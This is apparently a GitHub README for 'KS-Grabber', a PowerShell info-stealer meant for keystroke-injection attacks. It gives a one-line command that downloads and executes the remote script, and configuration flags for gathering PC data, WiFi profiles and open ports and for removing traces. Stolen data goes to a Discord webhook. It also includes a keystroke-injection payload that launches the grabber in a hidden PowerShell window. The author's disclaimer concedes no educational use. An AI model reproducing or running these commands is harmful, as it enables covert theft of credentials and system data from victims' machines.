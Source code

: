 # ✨ KS-Grabber

KS-Grabber is a keystroke injection grabber that is fully modular and developed with PowerShell. This script allows you to collect information from various sources and send it to a webhook.

## Usage

Run the following command in PowerShell to execute KS-Grabber:

```powershell
$hookurl = '<webhook goes here>'
iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content
```

## Configuration

Before running the script, you need to configure the boolean variables that enable the grabber modules. Open the script and set the following variables:

```powershell
$gatherPcData = $true  # Gather PC data
$gatherWifiProfiles = $true  # Gather WiFi profiles
$gatherOpenPorts = $true  # Gather open ports
$removeTraces = $true  # Remove traces
```

**WARNING:** It is mandatory to configure the webhook correctly. Replace the value of the `$hookurl` variable with your webhook:

```powershell
$hookurl = "https://discord.com/api/webhooks/wompwomp"
```

Otherwise, the script will not work!

## Example Attack

Here is an example attack using the grabber:

```plaintext
GUI r
DELAY 1000
STRING cmd
ENTER
DELAY 1000
STRING powershell -windowstyle hidden -command "$hookurl = '<webhook goes here>'; iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content"
ENTER
```
### ⭐ Made for educational purposes (even though I don't know how it can be used in an educational way), I am not responsible for how this tool is used.

